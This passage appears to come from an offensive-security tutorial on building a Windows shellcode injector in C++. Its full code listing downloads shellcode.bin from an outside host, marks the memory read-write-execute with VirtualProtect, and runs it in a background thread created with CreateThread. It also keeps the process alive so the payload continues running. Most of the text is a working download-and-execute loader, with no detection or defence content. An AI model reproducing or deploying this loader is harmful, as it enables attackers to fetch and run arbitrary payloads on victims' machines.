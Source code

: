 ## CreateThread C++

Executing shellcode in the local process as a function delegate does so on the main thread of the application.  This is fine if your injector does not need to carry out any other tasks, but you may wish to free up execution flow and run the shellcode in the background instead.

This can be done by executing the shellcode in a separate thread.  C++ can use the [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) API - it only requires the pointer to the shellcode cast as `LPTHREAD_START_ROUTINE`.

```
//execute
DWORD threadId =0;
HANDLE hThread = CreateThread(
NULL,
0,
(LPTHREAD_START_ROUTINE)ptr,
NULL,
0,
&threadId);

//close handle
CloseHandle(hThread);
```

This will run in background and will continue while the program continues until exit. If the program closes so do all background threads, including the shellcode. We don't want this to happen so we write code to stop the program from closing:
```
//stop the program from closing
std::cout << "Shellcode is running, press key to exit" << std::endl;
_getch();
```

Full code:

```
std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

// get pointer to buffer
LPVOID ptr = &shellcode[0];

// set memory to RWX
DWORD oldProtect = 0;
VirtualProtect(
    ptr,
    shellcode.size(),
    PAGE_EXECUTE_READWRITE,
    &oldProtect);

// execute
DWORD threadId = 0;
HANDLE hThread = CreateThread(
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)ptr,
    NULL,
    0,
    &threadId);

// close handle
CloseHandle(hThread);

// stop the program from closing
std::cout << "Shellcode is running, press key to exit" << std::endl;
_getch();
```
